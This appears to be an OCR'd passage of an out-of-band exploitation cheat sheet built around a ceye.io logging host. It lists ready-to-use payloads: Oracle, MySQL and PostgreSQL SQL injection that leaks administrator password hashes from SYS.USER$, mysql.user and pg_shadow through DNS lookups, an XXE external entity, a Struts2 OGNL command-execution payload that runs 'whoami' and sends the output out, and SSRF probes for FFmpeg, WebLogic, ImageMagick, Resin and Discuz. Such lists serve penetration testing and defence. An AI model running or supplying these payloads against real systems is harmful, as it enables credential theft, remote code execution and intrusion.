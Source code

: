 SELECT UTL_HTTP.REQUEST('http://ip.port.t70avy.ceye.io/oracle') FROM DUAL;
SELECT HTTPURITYPE('http://ip.port.t70avy.ceye.io/oracle').GETCLOB() FROM DUAL;
SELECT DBMS_LDAP.INIT(('oracle.ip.port.t70avy.ceye.io',80) FROM DUAL;
SELECT DBMS_LDAP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.ip.port.t70avy.ceye.io',80) FROM DUAL;
iii. MySQL
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.t70avy.ceye.io\\abc'));
iv. PostgreSQL
DROP TABLE IF EXISTS table_output;
CREATE TABLE table_output(content text);
CREATE OR REPLACE FUNCTION temp_function()
RETURNS VOID AS $
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
SELECT INTO query_result (SELECT passwd
FROM pg_shadow WHERE usename='postgres');
exec_cmd := E'COPY table_output(content)
FROM E\'\\\\\\\\'||query_result||E'.psql.ip.port.t70avy.ceye.io\\\\foobar.txt\'';
EXECUTE exec_cmd;
END;
$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT temp_function();
0x02 XML Entity Injection
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://ip.port.t70avy.ceye.io/xxe_test">
%remote;]>
<root/>
0x03 Others
i. Struts2
xx.action?redirect:http://ip.port.t70avy.ceye.io/%25{3*4}
xx.action?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://ip.port.t70avy.ceye.io/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}
ii. FFMpeg
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://ip.port.t70avy.ceye.io
#EXT-X-ENDLIST
iii. Weblogic
 xxoo.com/uddiexplorer/SearchPublicRegistries.jsp?operator=http://ip.port.t70avy.ceye.io/test&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Businesslocation&btnSubmit=Search
iv. ImageMagick
push graphic-context
viewbox 0 0 640 480
fill 'url(http://ip.port.t70avy.ceye.io)'
pop graphic-context
v. Resin
xxoo.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://ip.port.t70avy.ceye.io/ssrf
vi. Discuz
http://xxx.xxxx.com/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://ip.port.t70avy.ceye.io/xx.jpg[/img]&formhash=xxoo
